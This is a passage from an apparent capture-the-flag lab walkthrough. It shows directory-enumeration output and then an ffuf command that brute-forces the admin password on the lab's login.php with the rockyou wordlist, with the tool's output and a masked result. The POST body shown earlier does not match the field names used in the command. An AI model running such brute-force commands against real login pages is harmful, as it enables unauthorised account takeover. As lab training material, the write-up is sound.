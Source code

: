 ```bash
/server-status        (Status: 403) [Size: 275]
/styles.css           (Status: 200) [Size: 687]
Progress: 37912 / 37912 (100.00%)
===============================================================
Finished
===============================================================
```

Bingo! `login.php` looks very promising. This is likely where we need to focus our brute-force efforts. By intercepting a login attempt with Burp Suite (or just watching the network tab in the browser), I can see the POST request format:

```text
admin=admin&password=admin
```

My first guess is that the username is `admin`. Let's fire up `ffuf` to find the password. The `-fw 8` flag filters out responses with 8 words, which is the size of the "Invalid credentials" response.

```bash
❯ ffuf -w /usr/share/wordlists/rockyou.txt -X POST -u http://lookup.thm/login.php -d 'username=admin&password=FUZZ' -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8"  -fw 8

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://lookup.thm/login.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded; charset=UTF-8
 :: Data             : username=admin&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 8
________________________________________________

*************             [Status: 200, Size: 74, Words: 10, Lines: 1, Duration: 75ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

We found a password! I tried logging in with `admin` and our shiny new password, but... it didn't work. What a plot twist! This means my initial assumption was wrong, and the username is probably not `admin`.
